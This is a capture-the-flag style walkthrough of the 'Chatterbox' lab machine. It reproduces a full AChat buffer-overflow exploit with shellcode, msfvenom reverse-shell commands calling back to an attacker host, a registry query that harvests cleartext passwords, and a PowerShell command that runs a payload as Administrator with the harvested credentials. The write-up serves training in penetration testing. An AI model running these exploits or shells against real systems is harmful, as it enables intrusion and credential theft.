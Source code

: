 # Chatterbox (Medium)

<figure><img src="../../../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h40m00s, deviation: 2h53m13s, median: 5h00m00s
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-11-06T09:00:26
|_  start_date: 2022-11-06T08:17:56
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-06T04:00:23-05:00

```

Enumerated UDP ports:

```
No UDP ports are open
```

Notes:

* 135/RPC is open
* 445/SMB is open
* 9255 & 9256 look very interesting -- Public exploits? Achat chat system

## Enumeration

### Port 445 SMB

* I attemped to list the SMB shares and map them out, but I keep getting a strange error upon doing so...

<figure><img src="../../../.gitbook/assets/image (3) (7).png" alt=""><figcaption></figcaption></figure>

### Port 9255 & 9256 AChat Chat System

<mark style="color:yellow;">Netcat Banner Grabbing Attempt</mark>:

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

* I also tried to navigate to the HTTP port 9255 and 9256 but it wasn't returning results

<mark style="color:yellow;">Searchsploit</mark>:

<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">36025.py Achat Remote Buffer Overflow</mark>

## Exploitation

### <mark style="color:yellow;">Achat is vulnerable to an SEH Buffer Overflow</mark>

Contents of 36025.py:

```
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
#Payload size: 512 bytes

buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x69\x6c\x77\x78\x62\x62"
buf += "\x69\x70\x59\x70\x4b\x50\x73\x30\x43\x59\x5a\x45\x50"
buf += "\x31\x67\x50\x4f\x74\x34\x4b\x50\x50\x4e\x50\x34\x4b"
buf += "\x30\x52\x7a\x6c\x74\x4b\x70\x52\x4e\x34\x64\x4b\x63"
buf += "\x42\x4f\x38\x4a\x6f\x38\x37\x6d\x7a\x4d\x56\x4d\x61"
buf += "\x49\x6f\x74\x6c\x4f\x4c\x6f\x71\x33\x4c\x69\x72\x4e"
buf += "\x4c\x4f\x30\x66\x61\x58\x4f\x5a\x6d\x59\x71\x67\x57"
buf += "\x68\x62\x48\x72\x52\x32\x50\x57\x54\x4b\x72\x32\x4e"
buf += "\x30\x64\x4b\x6e\x6a\x4d\x6c\x72\x6b\x70\x4c\x4a\x71"
buf += "\x43\x48\x39\x53\x71\x38\x6a\x61\x36\x71\x4f\x61\x62"
buf += "\x6b\x42\x39\x4f\x30\x4a\x61\x38\x53\x62\x6b\x30\x49"
buf += "\x6b\x68\x58\x63\x4e\x5a\x6e\x69\x44\x4b\x6f\x44\x72"
buf += "\x6b\x4b\x51\x36\x76\x70\x31\x69\x6f\x46\x4c\x57\x51"
buf += "\x48\x4f\x4c\x4d\x6a\x61\x55\x77\x4f\x48\x57\x70\x54"
buf += "\x35\x49\x66\x49\x73\x51\x6d\x7a\x58\x6d\x6b\x53\x4d"
buf += "\x4e\x44\x34\x35\x38\x64\x62\x38\x62\x6b\x52\x38\x6b"
buf += "\x74\x69\x71\x4a\x33\x33\x36\x54\x4b\x7a\x6c\x6e\x6b"
buf += "\x72\x6b\x51\x48\x6d\x4c\x6b\x51\x67\x63\x52\x6b\x49"
buf += "\x74\x72\x6b\x4d\x31\x7a\x30\x44\x49\x51\x34\x6e\x44"
buf += "\x4b\x74\x61\x4b\x51\x4b\x4f\x71\x51\x49\x71\x4a\x52"
buf += "\x31\x49\x6f\x69\x50\x31\x4f\x51\x4f\x6e\x7a\x34\x4b"
buf += "\x6a\x72\x38\x6b\x44\x4d\x71\x4d\x50\x6a\x59\x71\x64"
buf += "\x4d\x35\x35\x65\x62\x4b\x50\x49\x70\x4b\x50\x52\x30"
buf += "\x32\x48\x6c\x71\x64\x4b\x72\x4f\x51\x77\x59\x6f\x79"
buf += "\x45\x45\x6b\x48\x70\x75\x65\x35\x52\x30\x56\x72\x48"
buf += "\x33\x76\x35\x45\x37\x4d\x63\x6d\x49\x6f\x37\x65\x6d"
buf += "\x6c\x6a\x66\x31\x6c\x79\x7a\x51\x70\x4b\x4b\x67\x70"
buf += "\x53\x45\x6d\x35\x55\x6b\x31\x37\x4e\x33\x32\x52\x30"
buf += "\x6f\x42\x4a\x6d\x30\x50\x53\x79\x6f\x37\x65\x70\x63"
buf += "\x53\x31\x72\x4c\x30\x63\x4c\x6e\x70\x65\x32\x58\x50"
buf += "\x65\x6d\x30\x41\x41"


# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.129.157.15', 9257)

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40"
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

* We need to change the command that is being executed as it is simply opening the calculator application... lol

Modified Exploit:

{% code overflow="wrap" %}
```
----SNIP----

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

----SNIP----
```
{% endcode %}

* Copy this payload and run it in Kali to generate shellcode for your attackbox
* Once generated, copy it into the exploit (replacing the existing shellcode)
* Also, be sure to change the <mark style="color:yellow;">server\_address to your target's address and change the port to 9256</mark>
* Next, start a Netcat listener on port 443
* Run the exploit with Python2 and detonate the SEH bypass BOF

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Local enumeration

* I discovered interesting internal ports with <mark style="color:red;">`netstat -ano`</mark>
  * 445
* Let's look for cleartext passwords
  * <mark style="color:red;">`reg query HKLM /f password /t REG_SZ /s`</mark>
  * <mark style="color:yellow;">DefaultPassword REG\_SZ Welcome1!</mark>
* It appears that we have some creds!
* Let's generate a reverse shell payload with Msfvenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f exe > shell.exe
```

* Start a nc listener on 443 again
* Create a new object with PowerShell

```
powershell -c "$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('Administrator', $password);Start-Process -FilePath "shell.exe" -Credential $creds"
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>
